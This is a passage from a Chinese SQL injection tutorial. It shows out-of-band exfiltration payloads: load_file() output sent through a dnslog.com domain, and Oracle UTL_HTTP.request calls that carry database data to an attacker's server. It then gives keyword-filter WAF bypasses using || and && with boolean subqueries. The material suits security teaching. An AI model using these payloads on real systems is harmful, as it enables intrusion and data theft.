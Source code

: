 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>select concat(to_base64(substr(load_file("xxx"),1,15)), "dnslog.com") as result<br>``` |

技巧

oracle 数据库中，存在发起 HTTP 请求的函数 UTL\_HTTP.request

`UTL_HTTP.request(url, proxy)`

它的返回类型是长度为 2000 或更短的字符串，它包含从 HTTP 请求返回到参数 URL 的 HTML 结果的前 2000 个字节

通过 SQL 注入让目标服务器执行：

`select UTL_HTTP.request('http://IP/test.php'||'?id='||(select version from v$instance)) from dual;`

在攻击人员的 test.php 上记录 id 参数传递过来的数据，并写入文件中

## [](#9-waf-%E7%BB%95%E8%BF%87)9 WAF 绕过

### [](#91-and-%E5%92%8C-or-%E7%BB%95%E8%BF%87)9.1 and 和 or 绕过

过滤代码：`preg_match('/(and|or)/i', $id)`

绕过：利用 `||` 代替 `or`，`&&` 代替 `and`

### [](#92-union-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.2 union 过滤绕过

过滤代码：`preg_match('/(and|or|union)/i', $id)`

绕过：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```sql<br>\| (select user from users where user_id=1)='admin'<br>``` |

问题

怎么知道 user 表、user 列、admin 字段？

1.  表名确实可以猜解，尤其是 user 这种常用表
2.  如果猜不到，通过 `information_schema.tables` 及 `substr` 来联合判断
3.  列名和字段内容也是同理

### [](#93-where-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.3 where 过滤绕过

过滤代码：`preg_match('/(and|or|union|where)/i', $id)`

绕过：`|| (select user from users limit 1,1)='admin'`

### [](#94-limit-%E8%BF%87%E6%BB%A4%E7%BB%95%E8%BF%87)9.4 limit 过滤绕过
